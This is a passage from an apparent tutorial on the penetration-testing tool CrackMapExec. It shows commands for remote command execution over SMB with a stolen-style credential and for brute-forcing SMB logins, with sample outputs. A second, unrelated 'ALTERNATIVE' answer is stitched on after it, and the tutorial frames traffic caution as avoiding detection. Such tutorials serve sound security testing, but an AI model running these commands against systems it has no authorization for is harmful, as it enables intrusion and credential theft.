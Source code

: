 #### 3. Execute a Command Remotely

To execute a command on a remote machine:

```bash
crackmapexec smb 192.168.1.100 -u admin -p password123 --exec-method wmiexec -e "cmd.exe /c whoami"
```

**Expected Output:**

```
SMB         192.168.1.100     MYDOMAIN   [+] Output: admin
```

#### 4. Brute-Force SMB Login

To perform a brute-force attack against SMB:

```bash
crackmapexec smb 192.168.1.100 -u usernames.txt -p passwords.txt
```

**Expected Output:**

```
SMB         192.168.1.100     MYDOMAIN   [+] admin:password123
```

### Important Considerations

- **Legal Use**: Always ensure you have permission to test the systems you are targeting. Unauthorized access is illegal and unethical.
- **Network Load**: Brute-forcing can generate significant network traffic; use responsibly to avoid detection.

### Conclusion

CrackMapExec is a versatile tool for assessing the security of Windows networks. By leveraging its various options and commands, you can effectively identify vulnerabilities and improve your network's security posture. Always use it within the legal and ethical boundaries of penetration testing.



                         ALTERNATIVE
CrackMapExec (CME) is a powerful tool in Kali Linux used for network exploitation and password cracking. Here's how to use it along with examples and expected output:

**Basic Syntax:**
```
crackmapexec <protocol> <target> <options>
```
**Protocols:**

* SMB (default)
* WINRM
* SSH
* MSSQL
* RDP
* VNC
